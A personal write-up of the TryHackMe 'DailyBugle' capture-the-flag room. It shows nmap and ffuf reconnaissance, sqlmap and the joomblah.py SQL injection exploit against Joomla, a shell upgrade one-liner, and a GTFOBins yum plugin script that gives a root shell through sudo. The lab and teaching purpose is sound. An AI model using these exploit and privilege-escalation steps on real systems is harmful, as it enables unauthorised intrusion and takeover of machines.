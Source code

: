 ```yaml
---
title: "DailyBugle Writeup THM"
description: "My writeup of the TryHackMe room [DailyBugle](https://tryhackme.com/room/dailybugle)"
date: 2024-01-01T10:00:00+01:00
image: https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Joomla
categories:
    - Room
    - Hard
---
```


The first thing that we are going to do is a nmap scan:

```bash
sudo nmap -A 10.10.62.253

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-30 10:48 EST
Nmap scan report for 10.10.62.253
Host is up (0.063s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

This is our output, we see that there are 3 ports open,

- ssh(useless for now)
- http
- 3306, which is used by MariaDB

The first thing that I am going to do is exploring the web page

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png)

After trying some thing, I cam accross the robots.txt directory:

```bash
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

This is the output.

For now I am going to ignore it.

Now I just started sqlmap with the request that I captured from the login form:

```bash
└─$ sqlmap -r Desktop/response.txt --dbms=mariadb --dump --threads=5
```

And then I ran ffuf for directory enumeration:

```bash
ffuf -u http://10.10.62.253/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.62.253/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5237ms]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5361ms]
administrator           [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 80ms]
bin                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 79ms]
cache                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 80ms]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9, Duration: 80ms]
cli                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 82ms]
components              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 94ms]
images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 76ms]
includes                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 79ms]
language                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 80ms]
layouts                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
libraries               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 77ms]
media                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 79ms]
modules                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
plugins                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 80ms]
templates               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 71ms]
tmp                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 80ms]
:: Progress: [20469/20469] :: Job [1/1] :: 265 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Ok, now that I have more informations, I can visit the administrator page:

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled%201.png)

Nice, we have the jomla login panel.

Now we can run OWASP joomscan, and find the version.

After that I searched for an exploit, and found this python script:

```bash
python3 joomblah.py http://10.10.62.253


    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: <redacted>
  -  Extracting users from <redacted>
 [$] Found user ['<redacted>']
  -  Extracting sessions from <redacted>
```

After finding the hash of Jonah, I just went to hashidentifier and cracked it.

Now for creating a reverse shell I found this Article online: https://www.hackingarticles.in/joomla-reverse-shell/

I followed and I got a rev shell.

I upgraded the shell using:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

And found the jjameson’s password inside linpeas.

Now we need to become root.

I used sudo -l  to list all the privileges:

```bash
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

And then went to gtfobins and used this for a root shell:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
